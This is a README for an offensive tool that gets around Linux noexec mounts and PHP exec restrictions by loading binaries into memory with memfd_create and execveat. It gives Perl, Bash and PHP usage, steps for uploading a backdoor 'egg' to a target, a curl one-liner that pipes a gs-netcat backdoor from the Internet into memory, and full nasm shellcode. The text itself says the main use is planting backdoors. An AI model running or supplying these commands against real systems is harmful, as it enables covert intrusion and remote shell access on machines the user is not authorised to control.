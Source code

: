 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root user
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html) to load a binary from a noexec-partition (or directly from the Internet).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) for more....

`TIME_STYLE` and `-lah` are used as an example to pass through environment parameters and command line options. 

### PERL example:
```sh
source memexec-perl.sh
cat /bin/ls | TIME_STYLE=+%s memexec -lah
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

### BASH example (by [@messede-degod](https://github.com/messede-degod)):
```sh
source memexec-bash.sh
cat /bin/ls | TIME_STYLE=+%s memexec -- -lah
```

### The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` will execute `egg`

(This is my way of saying "hey. how are to?" to my old [team-teso](https://en.wikipedia.org/wiki/TESO_(Austrian_hacker_group)) colleague and long time PHP developer [@i0nic](https://x.com/i0n1c))

---

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec`:
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilD -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```
---

For the addicts, here is the nasm of the shellcode (memfd_create, copy loop & execveat):
```nasm
; nasm -felf64 memexec.nasm && ld memexec.o &&  ./a.out

global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 3: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 1: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00        ; an empty string
    mov     rsi, rsp    ; arg 2: path (empty string)
    mov     rdx, rsp    ; arg 3: ARGV points to empty string
    xor     rcx, rcx    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    xor     r9, r9      ; arg 6: must be clean
    xor     r10, r10    ; arg 7: must be clean
    syscall

    mov     rax, 60
    xor     rdi, rdi
    syscall
```
